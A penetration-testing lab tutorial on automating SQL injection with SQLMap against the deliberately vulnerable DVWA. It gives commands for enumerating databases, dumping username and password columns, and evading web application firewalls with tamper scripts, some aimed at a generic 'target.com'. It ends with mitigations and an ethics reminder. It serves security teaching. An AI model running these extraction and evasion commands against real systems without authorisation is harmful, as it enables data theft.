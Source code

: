 ```yaml
---
title: Automating SQL Injection Using SQLMap
date: 2024-12-06 08:01:35 +0300
subtitle: Product Design
image: '/images/406.png'
---
```

# Lab 6: Automating SQL Injection Using SQLMap

## **Objective**
Learn how to use **SQLMap**, an open-source penetration testing tool, to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. This lab will also cover techniques for mitigating these vulnerabilities.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with SQLMap Installed**:
   - Verify SQLMap is installed:
     ```bash
     sqlmap --version
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install sqlmap
     ```

2. **Vulnerable Web Application**:
   - Use an intentionally vulnerable application like DVWA (Damn Vulnerable Web Application) or OWASP Juice Shop.
   - **Tip**: Ensure your DVWA security level is set to **low** for easier exploitation.

3. **Basic Understanding of SQL Injection**:
   - Familiarity with SQL commands and how applications use SQL queries to interact with databases.
   - **Insight**: SQL injection manipulates vulnerable queries to access unauthorized data or perform unauthorized actions.

---

## **Step 1: Setting Up the Environment**
1. Start your vulnerable web application.
   - For DVWA, ensure your web server and database server are running.
   - Access DVWA via `http://localhost/dvwa` in your browser.

2. Log in to DVWA (default credentials: `admin` / `password`).
3. Navigate to the **SQL Injection** module.

---

## **Step 2: Identifying the Vulnerable Parameter**
1. In the SQL Injection module of DVWA, enter a test value into the input field (e.g., `1`).
2. Observe the response:
   - If the page behaves differently when you add a single quote (e.g., `1'`), it may be vulnerable to SQL injection.
   - **Insight**: Error messages or unusual behavior are indicators of SQL vulnerabilities.

---

## **Step 3: Running SQLMap**
1. Capture the vulnerable request:
   - Use a browser extension like Burp Suite or OWASP ZAP to intercept and save the HTTP request.
   - Alternatively, note the URL and query string (e.g., `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`).

2. Run SQLMap against the target:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
   ```
   - **`-u`**: Specifies the target URL.

3. Observe SQLMap’s output:
   - SQLMap will test for SQL injection vulnerabilities and display its findings.
   - **Tip**: Use the `--batch` option to skip confirmation prompts in automated scripts.

---

## **Step 4: Extracting Database Information**
1. Enumerate the database:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
   ```
   - **`--dbs`**: Lists available databases.

2. Choose a database and enumerate its tables:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> --tables
   ```
   - Replace `<database_name>` with the target database (e.g., `dvwa`).

3. Choose a table and enumerate its columns:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> --columns
   ```
   - Replace `<table_name>` with the desired table (e.g., `users`).

4. Extract data from a table:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> -C <column_name> --dump
   ```
   - Replace `<column_name>` with the column to extract (e.g., `username,password`).

---

## **Step 5: Advanced SQLMap Options**
1. **Bypassing WAFs (Web Application Firewalls):**
   - Use tamper scripts to evade basic security mechanisms:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --tamper="space2comment"
     ```

2. **Testing All Parameters:**
   - If the application uses multiple parameters, test them all:
     ```bash
     sqlmap -u "http://target.com/page?id=1&name=test" --level=3 --risk=2
     ```
   - **Tip**: Higher `--level` and `--risk` values increase testing intensity.

3. **Identifying Database Type:**
   - Automatically detect the database type:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --dbms=mysql
     ```

4. **Extracting Password Hashes:**
   - Dump and crack password hashes:
     ```bash
     sqlmap -u "http://target.com/vulnerable" -D <database_name> -T <table_name> -C password --dump
     ```

---

## **Step 6: Mitigation Techniques**
1. **Use Parameterized Queries:**
   - Ensure user input is safely handled by the database using prepared statements.

2. **Validate and Sanitize Inputs:**
   - Reject unexpected characters or patterns in user inputs.

3. **Implement Web Application Firewalls (WAFs):**
   - Use a WAF to filter out malicious requests.

4. **Limit Database Privileges:**
   - Restrict user roles to minimize the impact of successful attacks.

5. **Perform Regular Security Audits:**
   - Regularly scan and test applications for vulnerabilities.

---

## **Step 7: Cleaning Up**
1. Remove any test payloads or reset the vulnerable application to its default state.
2. Document your findings and share them responsibly.

---

## **Additional Tips and Insights**
1. **Ethical Considerations:**
   - Only perform SQLMap tests on systems where you have explicit permission to do so.

2. **Automation Benefits:**
   - SQLMap automates much of the manual work involved in exploiting SQL injection vulnerabilities, saving time and reducing human error.

3. **Use in CTFs (Capture The Flag):**
   - SQLMap is a powerful tool for solving CTF challenges that involve web exploitation.

4. **Continuous Practice:**
   - Experiment with different flags, tamper scripts, and configurations to deepen your understanding.

---

## **Key Takeaways**
1. SQLMap is a robust tool for detecting and exploiting SQL injection vulnerabilities.
2. Understanding its features and outputs allows for efficient testing and data extraction.
3. Secure coding practices and regular vulnerability assessments are essential for preventing SQL injection attacks.
